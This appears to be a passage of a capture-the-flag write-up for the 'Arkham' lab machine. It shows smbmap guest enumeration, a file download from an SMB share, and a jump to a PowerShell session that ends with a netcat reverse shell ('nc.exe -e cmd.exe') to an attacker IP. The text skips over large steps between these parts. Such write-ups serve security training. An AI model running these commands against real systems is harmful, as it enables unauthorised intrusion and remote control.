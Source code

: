 The `userSubscribe.faces` file is the *Subscribe* link on the main page.

The `.faces` extension is used by JavaServer Faces

According to Wikipedia:

> JavaServer Faces (JSF) is a Java specification for building component-based user interfaces for web applications[1] and was formalized as a standard through the Java Community Process being part of the Java Platform, Enterprise Edition. It is also a MVC web framework that simplifies construction of user interfaces (UI) for server-based applications by using reusable UI components in a page.

I'll get back to that after the SMB enumeration, this is the way in.

### SMB enumeration

I'll use `smbmap` to quickly scan for accessible shares. I'm using an invalid username here so it connects as guest and not using a null session.
```
# smbmap -u snowscan -H 10.10.10.130
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.130...
[+] IP: 10.10.10.130:445	Name: arkham.htb
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	BatShare                                          	READ ONLY
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
	Users                                             	READ ONLY
```

`BatShare` is accessible in read-only mode and there is a single file in there.

```
# smbmap -u snowscan -r BatShare -H 10.10.10.130
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.130...
[+] IP: 10.10.10.130:445	Name: arkham.htb
	Disk                                                  	Permissions
	----                                                  	-----------
	BatShare                                          	READ ONLY
	./
	dr--r--r--                0 Sun Feb  3 08:04:13 2019	.
	dr--r--r--                0 Sun Feb  3 08:04:13 2019	..
	fr--r--r--          4046695 Sun Feb  3 08:04:13 2019	appserver.zip
```

Downloading the file using `smbmap`:

```
# smbmap -u snowscan --download BatShare\\appserver.zip -H 10.10.10.130
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.130...
[+] Starting download: BatShare\appserver.zip (4046695 bytes)
[+] File output to: /usr/share/smbmap/10.10.10.130-BatShare_appserver.zip
```


[arkham]: PS C:\Users\Batman\Documents>
[arkham]: PS C:\Users\Batman\Documents> cd ..
[arkham]: PS C:\Users\Batman\Documents> whoami
[arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
[arkham]: PS C:\Users\Batman\Documents> c:\programdata\nc.exe -e cmd.exe 10.10.14.23 6666